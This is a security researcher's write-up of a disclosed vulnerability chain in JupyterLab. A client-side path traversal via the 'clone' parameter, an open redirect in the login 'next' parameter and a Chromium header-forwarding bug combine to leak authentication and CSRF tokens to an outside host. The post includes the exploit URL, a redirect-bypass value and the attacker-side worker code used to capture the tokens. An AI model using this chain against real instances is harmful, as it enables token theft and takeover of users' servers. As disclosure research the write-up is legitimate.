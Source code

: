 # Leaking Jupyter instance auth token chaining CVE-2023-39968, CVE-2024-22421 and a chromium bug



After getting an invitation to [Jupyter](https://app.intigriti.com/researcher/programs/jupyter/jupyter/detail)'s private (then public and now not active anymore) program on [Intigriti](https://www.intigriti.com/) I decided to dig into its codebase. Spending a few hours I found a client side path traversal issue chaining which with an open redirect and a chromium issue, I was able to leak Jupyterlab's authentication and csrf tokens.
<!--more-->


### Client side path traversal

To find a client side path traversal I usually go one of these ways: blackboxy, i.e. spraying `../../../traversed` in all the query string or fragment parameters, or whiteboxy, i.e. manually looking for fetch/xhr sinks in javascript code. In this case, I started with spraying, then finding out the root cause of the issue.\
Reading the docs, I found [`clone`](https://jupyterlab.readthedocs.io/en/latest/user/urls.html#cloning-workspaces) parameter which would, as the name suggests, clone a workspace. I navigated to [http://localhost:8888/lab?clone=anything](http://localhost:8888/lab?clone=anything) (localhost:8888 is a jupyterlab local instance) and saw the reflection in the api request path.

![path reflection](path-reflection.png "path reflection")

Then I tried to go back a few levels by opening the following URL [http://localhost:8888/lab?clone=../../../traversed](http://localhost:8888/lab?clone=../../../traversed), and to my surprise, it worked, the app traversed back from the `workspaces` api endpoint to `/traversed`

![client side path traversal](traversed.png "client side path traversal")

But why would this work? To understand it we should start with the source, i.e. where the app starts processing `clone` query parameter, and see how it reaches the request sink. The source is located on line 439 at [packages/apputils-extension/src/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/apputils-extension/src/index.ts#L438-L453) and is being passed to `workspaces.fetch` on line 453.

![clone parameter source](clone-source.png "clone parameter source")

Then `workspaces.fetch` passes it to `makeRequest` at [packages/services/src/workspace/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/workspace/index.ts#L48) on line 48, after joining the path unsafely (`id`, i.e. malicious path via delivered via `clone` query parameter, being appended to the initial path) with URLExt.join ([packages/coreutils/src/url.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/coreutils/src/url.ts#L55)).

![workspaces.fetch](workspaces-fetch.png "workspaces.fetch")
![Private.url](private-url.png "Private.url")
![URLExt.join](urlext-join.png "URLExt.join")

And makeRequest (handleRequest) appends authorization and csrf headers at [packages/services/src/serverconnection.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/serverconnection.ts#L283-L293) on lines 283-293

![makeRequest](makeRequest.png "makeRequest")
![handleRequest](handleRequest.png "handleRequest")


### Open redirect

Now was the time I started looking for an open redirect or other ways I could store and serve my content to `workspaces.fetch` request.
Opening [http://localhost:8888/lab](http://localhost:8888/login?next=%2Flab) in an unauthenticated browser session I noticed I was redirected to [http://localhost:8888/login?next=%2Flab](http://localhost:8888/login?next=%2Flab), so I went into [jupyter_server](https://github.com/jupyter-server/jupyter_server) codebase to find out if `next` parameter was checking the redirect uri properly.

Searching for `next` led me to [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L67), which was passing it to `_redirect_safe` on line 67.

![login handler](login-handler.png "login handler")

On line 45 it is stated that if the parsed uri does not have a `netloc`, `next` query param will be used to redirect as is (line 61) [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L45)

![netloc issue](netloc-issue.png "netloc issue")

This check was possible to bypass with a url like the following - https:///evil.com (it won't have a netloc)

![python url parsing issue](python-urlparse-issue.png "python url parsing issue")

So the following URL - [http://localhost:8888/login?next=https:///evil.com](http://localhost:8888/login?next=https:///evil.com), will successfully redirect an authenticated client to https://evil.com 


### Leaking the authentication and csrf tokens

To test the issue I tried redirecting to a burp collaborator instance and see if the client would make a request to it after being redirected with the following url
```
http://localhost:8888/lab?clone=../../../login%3fnext%3dhttps%3a%2f%2f%2fmyid.oastify.com
```

Oastify, being not the same origin, triggered CORS process requiring the server to allow the following headers.
```HTTP
Access-Control-Request-Headers: authorization,content-type,x-xsrftoken
```

So I created a cloudflare worker with the following code
``` javascript
const headers = { 
    "Content-Type": "application/json",
    "Access-Control-Allow-Origin": "*",
    "Access-Control-Allow-Headers": "authorization,content-type,x-xsrftoken"
}
const fileBr = {
    data: {
    }
}


export default {
  async fetch(request, env, ctx) {
    return new Response(JSON.stringify(fileBr),{headers});
  },
};
```

The weirdest part was that the custom set headers were also being forwarded to my origin even after being redirected.

![leaking credentials](leak-credentials.png "leaking credentials")

These credentials can then be used to get access to the server simply by navigating to `http://localhost:8888/lab?token=<leaked-token>`.

### Chromium bug

At first, I thought it was an issue in [follow-redirects](https://www.npmjs.com/package/follow-redirects) package, as it had a similar vulnerability https://security.snyk.io/vuln/SNYK-JS-FOLLOWREDIRECTS-2332181 and jupyterlab had the vulnerable version. So I left it as is without taking a proper look into it.

After about a month I encountered the same issue on another program. This time it was passed into fetch API directly (not into a wrapper).

![fetch api sink](fetchapi.png "fetch api sink")

Just to be sure 😅, I have created a similar poc at https://chromium-poc-53c4.xssam.workers.dev/?id=../../redirect/?url=https://chromium-poc-cors-dd35.xssam.workers.dev/ AND IT WORKED !!.

![chromium leak](chromium-leak.png "chromium leak")

I have previously seen similar behavior on mobile apps, but chromium doing the same, was something unexpected. So I just created a ticket in the chromium bug tracker and got a quick response that it was a duplicate of a closed issue.

![duplicate](duplicate.png "duplicate issue")

This has since been fixed, and chromium does not forward custom set headers on redirect anymore.


### Closing words and tooling 

Client side path traversal vulnerabilities are quite common in single-page applications and it is always worth looking for them. Although the chromium bug is now patched, CSPT issues still have a big potential to get turned into CSRF, XSS or info leaks.

I have been encountering similar issues pretty often, so to ease the process of finding path traversals, I have developed (shamelessly copied from various places) a chromium extension that will log the xhr/fetch reflected parameters in a popup https://github.com/davwwwx/Reflection-Logger.

![reflection logger extension](reflection-logger.png "reflection logger extension")

The extension is at a very early stage, so if you want a more stable tool please use Burp Suite extension at https://github.com/doyensec/CSPTBurpExtension, introduced by an amazing research whitepaper by Doyensec team https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_Whitepaper.pdf. Check it out for more CSPT techniques.
